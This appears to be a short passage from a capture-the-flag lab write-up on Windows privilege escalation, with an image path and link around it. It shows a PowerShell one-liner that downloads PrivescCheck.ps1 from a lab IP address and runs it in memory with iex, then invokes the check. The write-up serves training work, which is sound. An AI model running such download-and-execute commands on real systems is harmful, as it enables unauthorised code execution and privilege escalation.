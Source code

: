 ##### Get the flag on the Administrator's desktop.

Using `PrivescCheck.ps1`

```bash
PS C:\Users\thm-unpriv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1")
PS C:\Users\thm-unpriv> Invoke-PrivescCheck
```

![](../../attachment/03efcb221c1c17bda0b530d0a8443a4a.png)

